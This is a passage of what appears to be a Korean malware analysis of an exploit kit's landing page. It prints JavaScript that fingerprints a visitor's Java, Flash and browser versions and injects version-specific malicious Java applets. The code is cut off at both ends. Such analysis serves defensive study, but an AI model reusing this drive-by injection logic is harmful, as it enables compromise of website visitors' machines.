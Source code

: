 ```javascript
    }
```

● wmck 변수는 사용자의 JRE 버전 정보를 나타내며, vers 변수는 플래시 버전을 나타내고, kaka 변수는 사용자 에이전트 문자열을 소문자로 변환한 브라우저 정보를 확인

● flashurl 변수에는 위에서 확인한 ckls 함수의 리턴 값 "JB2kHkHkgFPKLKLBFBmkKByBwBKByBmkykHkZKwBFBLBxKLkkFFBFKLkkBZBwKwByk2Bygg“이 저장됨

● if문 에서는 JRE 버전을 비교하고 브라우저 버전을 확인하여 각각 브라우저에 맞게 플래시 객체 및 자바 애플릿을 삽입

```javascript
var wmck = deployJava.getJREs() + "";
wmck = parseInt(wmck.replace(/\\.|\\_/g, ''));
var vers = flash.prototype.getSwfVer();
vers = parseInt(vers.replace(/\\.|\\_/g, ''));
var kaka = navigator.userAgent.toLowerCase();
var ckurl = encode();
var flashurl = ckls();
if (wmck > 17006 && wmck < 17011) {
        if(kaka.indexOf("msie 6") > -1) {
            document.writeln("<object classid='clsid:8ad9c840-044e-11d1-b3e9-00805f499d93' width='600' height='400'><param name='xiaomaolv' value='"+ ckurl + "'><param name='bn' value='woyouyizhixiaomaol'><param name='si' value='conglaiyebuqi'><param name='bs' value='748'><param name='CODE' value='xml20130422.XML20130422.class'><param name='archive' value='"+ jaguar + "'></object>");
} else {
            document.write("<br>");
var gondady = document.createElement("body");
document.body.appendChild(gondady);
var gondad = document.createElement("applet");
gondad.width = "600";
gondad.height = "400";
gondad.archive = jaguar;
gondad.code = "xml20130422.XML20130422.class";
gondad.setAttribute("xiaomaolv", ckurl);
gondad.setAttribute("bn", "woyouyizhixiaomaol");
gondad.setAttribute("si", "conglaiyebuqi");
gondad.setAttribute("bs", "748");
document.body.appendChild(gondad);
}
} else if (wmck >= 17000 && wmck < 17007) {
if (kaka.indexOf("msie 6") > -1) {
            document.writeln("<object classid='clsid:8ad9c840-044e-11d1-b3e9-00805f499d93' width='256' height='256'><param name='xiaomaolv' value='"+ ckurl + "'><param name='bn' value='woyouyizhixiaomaolv'><param name='si' value='conglaiyebuqi'><param name='bs' value='748'><param name='CODE' value='setup.hohoho.class'><param name='archive' value='"+ audi + "'></object>");
} else {
            document.write("<br>");
var gondady = document.createElement("body");
document.body.appendChild(gondady);
var gondad = document.createElement("applet");
gondad.width = "256";
gondad.height = "256";
gondad.archive = audi;
gondad.code = "setup.hohoho.class";
gondad.setAttribute("xiaomaolv", ckurl);
gondad.setAttribute("bn", "woyouyizhixiaomaolv");
gondad.setAttribute("si", "conglaiyebuqi");
gondad.setAttribute("bs", "748");
document.body.appendChild(gondad);
}
} else if (wmck <= 16027) {
var okokx = GTR + ".class";
var ckckx = document.createElement('applet');
ckckx.archive = benz;
ckckx.code = okokx;
```